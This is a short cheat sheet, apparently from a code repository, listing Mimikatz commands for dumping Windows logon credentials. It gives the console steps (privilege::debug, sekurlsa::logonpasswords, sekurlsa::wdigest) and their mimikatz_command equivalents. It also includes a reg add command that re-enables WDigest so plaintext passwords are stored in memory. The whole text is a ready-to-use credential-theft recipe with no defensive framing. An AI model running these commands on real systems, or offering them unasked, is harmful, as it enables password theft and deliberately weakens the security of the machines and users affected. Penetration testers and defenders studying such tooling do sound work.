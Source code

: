 # Table of commands Mimikatz

### Mimikatz console (multiple commands)
```
PS C:\temp\mimikatz> .\mimikatz
mimikatz # privilege::debug
mimikatz # log
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::wdigest
```

### Extract passwords
```
mimikatz_command -f sekurlsa::logonPasswords full
mimikatz_command -f sekurlsa::wdigest

# to re-enable wdigest in Windows Server 2012+
# in HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest 
# create a DWORD 'UseLogonCredential' with the value 1.
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /f /d 1
```